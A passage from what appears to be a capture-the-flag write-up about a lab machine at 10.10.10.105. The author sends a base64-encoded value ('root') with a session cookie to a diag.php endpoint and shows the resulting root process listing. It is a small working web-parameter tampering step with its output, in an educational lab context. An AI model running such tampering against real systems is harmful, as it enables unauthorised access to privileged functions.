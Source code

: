 Now it's time to play with the b64 string, I changed the b64 to `root`(cm9vdA==) and then tried getting all the process

```bash
➜ http -f POST http://10.10.10.105/diag.php Cookie:"PHPSESSID=927bpraqjv41bbcqu3dhgbkp81" check=cm9vdA== | lynx --stdin
```
__OUTPUT__

```bash
  Warning: Invalid license, diagnostics restricted to built-in checks
   (BUTTON) Verify status

   root 1 0.0 0.2 37644 5680 ? Ss 16:53 0:00 /sbin/init

   root 54 0.0 0.1 35272 3536 ? Ss 16:53 0:00 /lib/systemd/systemd-journald

   root 61 0.0 0.1 41720 3256 ? Ss 16:53 0:00 /lib/systemd/systemd-udevd

   root 476 0.0 0.1 28544 3032 ? Ss 16:53 0:00 /lib/systemd/systemd-logind

   root 482 0.0 0.3 274488 6428 ? Ssl 16:53 0:00 /usr/lib/accountsservice/accounts-daemon

   root 483 0.0 0.1 27728 3008 ? Ss 16:53 0:00 /usr/sbin/cron -f

   root 485 0.0 1.1 149968 24152 ? Ssl 16:53 0:00 /usr/lib/snapd/snapd

   root 490 0.0 0.3 65508 6320 ? Ss 16:53 0:00 /usr/sbin/sshd -D

   root 495 0.0 0.0 5220 112 ? Ss 16:53 0:00 /sbin/iscsid

   root 496 0.0 0.1 5720 3544 ? SLs 16:53 0:00 /sbin/iscsid

   root 529 0.0 0.2 277176 5992 ? Ssl 16:53 0:00 /usr/lib/policykit-1/polkitd --no-debug

   root 537 0.0 0.1 14472 2152 console Ss+ 16:53 0:00 /sbin/agetty --noclear --keep-baud console 115200 38400 9600 linux

   root 589 0.0 0.2 36684 4592 ? Ss 16:53 0:00 /lib/systemd/systemd --user

   root 590 0.0 0.0 61096 1748 ? S 16:53 0:00 (sd-pam)

   root 849 0.0 0.3 92796 7008 ? Ss 16:59 0:00 sshd: root@notty

   root 882 0.0 0.1 19896 3508 ? S 16:59 0:00 /bin/bash -i

   root 2239 0.0 0.0 15432 168 ? Ss 17:40 0:00 /usr/lib/quagga/watchquagga --daemon zebra bgpd

   root 2484 0.0 0.3 92796 6904 ? Ss 17:49 0:00 sshd: root@notty

   root 2515 0.0 0.1 36084 3252 ? R 17:49 0:00 ps waux
```
